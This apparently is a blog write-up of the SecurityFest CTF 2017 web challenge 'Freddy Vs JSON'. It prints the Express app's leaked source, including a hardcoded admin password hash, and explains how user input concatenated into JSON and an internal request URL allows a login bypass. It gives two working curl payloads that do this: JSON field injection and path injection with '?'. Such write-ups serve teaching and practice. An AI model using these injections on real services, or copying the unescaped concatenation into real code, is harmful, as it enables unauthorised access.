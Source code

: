 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
modified: 2017-06-02
date: 2017-06-02
comments: true
title: 'SecurityFest CTF 2017 : Freddy Vs JSON'
tags: [Web Exploitation]
mathjax: false
imagefeature: /images/express.jpg
description: SecurityFest2017 - Freddy Vs JSON Writeup
category: CTF
chart: null
---
```



## Problem

```
Can you hack my friends facebook? no? what about this then?
Solves: 19
Service: http://52.208.132.198:2999/
Author: avlidienbrunn
```


## Writeup

First impression i thought that was SQL Injection challenges to get into login bypass but after a while
i just figure it they using Express that was node web framework.

```
➔ curl http://52.208.132.198:2999/ -v
*   Trying 52.208.132.198...
* Connected to 52.208.132.198 (52.208.132.198) port 2999 (#0)
> GET / HTTP/1.1
> Host: 52.208.132.198:2999
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
< Content-Length: 1813
< ETag: W/"715-DSGKN9kwhacZR6TO5Ab8xoUqS9Y"
< Date: Fri, 02 Jun 2017 02:25:59 GMT
< Connection: keep-alive
< 
```

so let's try to find some file configuration that's usually used by node and i just found
`package.json` is readable for us.

```js
{
    name: "freddyvsjson",
    version: "1.0.0",
    description: "hi",
    main: "index.js",
    dependencies: {
    body-parser: "^1.17.1",
    express: "^4.15.2",
    express-jwt: "^5.3.0",
    request: "^2.81.0"
},
devDependencies: { },
scripts: {
    test: "echo "Error: no test specified" && exit 1"
},
author: "",
license: "ISC"
}
```

this file actually leaking some information for further testing. we now have idea what module used.
and again we can read `index.js` content.

```js
require('./local');
var crypto = require('crypto');
var express = require('express');
var request = require("request");
var app = express();

var bodyParser = require('body-parser');
app.use(bodyParser.urlencoded({
	extended: true
})); 

app.use(express.static('.'));

app.listen(2999, function () {
  console.log('Example app listening on port 2999!')
});

index = `<!DOCTYPE html>
<html lang="en">
  <head>
      <meta charset="UTF-8">
      <meta name="viewport" user-scalable="no" content="width=device-width, initial-scale=1">
      <script src="https://code.jquery.com/jquery-1.12.4.min.js"></script>
      <script src="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/js/bootstrap.min.js"></script>
      <script src="/static/index.js"></script>
      <link rel="stylesheet" href="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css" />
      <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/mdbootstrap/4.3.0/css/mdb.min.css" />
      <link rel="stylesheet" href="/static/freddy.css" />
  </head>
  <body><section class="login-info">
<div class="container">
  <div class="row main">
       <div class="form-header elegant-color">
          <h1 class="text-center ">Authenticate</h1>
        </div>
    <div class="main-content">
            
          <div class="input-group ">
            <span class="input-group-addon"><span class="glyphicon glyphicon-envelope" aria-hidden="true"></span></span>
            <input id="user" type="text" class="form-control text-center" name="email" placeholder="Enter your Email">
          </div>
          <div class="input-group">
            <span class="input-group-addon"><span class="glyphicon glyphicon-lock" aria-hidden="true"></span></span>
            <input id="pass" type="password" class="form-control text-center" name="password" placeholder="Enter your Password">
          </div>
          
          <div class="form-group ">
              <a href="#" id="login" type="button"  class="btn btn-danger btn-lg btn-block login-button">login</a>
          </div>
          
          <div class="form-group" id="container">
          </div>
      
      </div>
    </div></body></html>`;

app.get('/', function (req, res) {
	res.send(index);
});

function atob(str){
	return Buffer(str, 'base64').toString()
}

function btoa(str){
	return Buffer(str).toString('base64')
}

app.post("/", function(req, res){
	if(req.body.user && req.body.pass){
		user = req.body.user;
		pass = crypto.createHash('md5').update(req.body.pass).digest("hex");
		//Query internal login service
		request("http://127.0.0.1:3001/createTicket/"+user+"/"+pass, function(error, response, body){
			console.log(body);
      try{
			   body = JSON.parse(body);
      }catch(x){
         body = {"authenticated":false, "user":req.body.user, "id":0}
      }
			if(body.authenticated){
				body.response = "Congratulations: " + process.env.FLAG;
			}else{
        body.response = "Invalid username or password!";
      }
			res.send(JSON.stringify(body));
		});
	}else{
		res.send("hi");
	}
})
```

and we found another file `local.js` which is included in first line of `index.js`

```js
var express = require('express');
var crypto = require('crypto');
var localapp = express();

localapp.listen(3001, '127.0.0.1', function () {
  console.log('JWT service up!')
});

db = [
	{"user":"admin","pass":"9c72256fdb7196d2563a38b84f431491","id":"1"}
];

function atob(str){
	return Buffer(str, 'base64').toString()
}

function btoa(str){
	return Buffer(str).toString('base64')
}

function verify(user, pass){
	db_user = db[0]; //TODO: sync with LDAP instead
	if(user && user == db_user["user"]){
		if(pass && pass == db_user["pass"]){
			return db_user["id"];
		}
	}
	return 0;
}

localapp.get('/createTicket/:user/:pass', function (req, res) {
	user = req.params.user;
	pass = req.params.pass;
	userid = verify(user, pass);
	if(userid){
		res.send('{"authenticated":true, "user":"'+user+'", "id":'+userid+'}');
	}else{
		res.send('{"authenticated":false, "user":"'+user+'", "id":'+userid+'}');
	}
})
```

after trying to understand how this app works, i am trying to bruteforce this password hash `9c72256fdb7196d2563a38b84f431491` 
and my guess about SQL injection is gone because they using hardcoded db rather than using connection to some databases.

so the hash isn't crackable not get anyhing, and again i just read the `index.js` file to find some other ways to get authenticated
then i found this part in `index.js` can be exploited

```js
  try{
		   body = JSON.parse(body);
  }catch(x){
     body = {"authenticated":false, "user":req.body.user, "id":0}
  }
```

if we fail to authenticate with correct password the code will trigger catch, as we can see we can control
`req.body.user` variable so we can overwrite the `"authenticated":false`.

we can get flag with this curl
`curl -X POST http://52.208.132.198:2999/ --data 'user=admin", "authenticated":"true&pass=foobar'`

we have another way for bypass the login exploiting this line in `index.js`

```js
request("http://127.0.0.1:3001/createTicket/"+user+"/"+pass, function(error, response, body){
```

we can simply input user like `admin/<hash>?` and password `anything`, question mark at the end to ignore whatever after that

```
curl -X POST http://52.208.132.198:2999/ --data 'user=admin/9c72256fdb7196d2563a38b84f431491?&pass=foobar'
```

so we got the flag `{"authenticated":true,"user":"admin","id":1,"response":"Congratulations: SCTF{1nj3ction_5chm1nj3ctioN}"}`